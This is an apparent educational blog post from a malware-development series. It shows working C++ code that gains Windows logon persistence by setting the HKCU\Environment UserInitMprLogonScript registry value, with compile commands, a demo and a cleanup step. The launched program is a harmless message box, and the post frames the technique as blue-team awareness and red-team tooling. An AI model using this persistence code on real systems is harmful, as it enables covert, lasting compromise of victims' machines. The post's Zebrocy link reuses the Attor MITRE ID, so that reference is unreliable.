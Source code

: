\newpage
\subsection{86. malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example.}

﷽

![pers](./images/82/2022-12-11_18-11.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_17-57.png){width="80%"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-54.png){width="80%"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](./images/82/2022-12-11_18-00.png){width="80%"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-55.png){width="80%"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_18-06.png){width="80%"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

![pers](./images/82/2022-12-11_18-07.png){width="80%"}    

![pers](./images/82/2022-12-11_18-07_1.png){width="80%"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

![pers](./images/82/2022-12-11_18-08.png){width="80%"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

![pers](./images/82/2022-12-11_18-09.png){width="80%"}    

![pers](./images/82/2022-12-11_18-10.png){width="80%"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

![pers](./images/82/2022-12-11_20-05.png){width="80%"}    

Everything is worked perfectly! =^..^=

After the end of experiment, delete the key:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](./images/82/2022-12-19_18-00.png){width="80%"}    

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
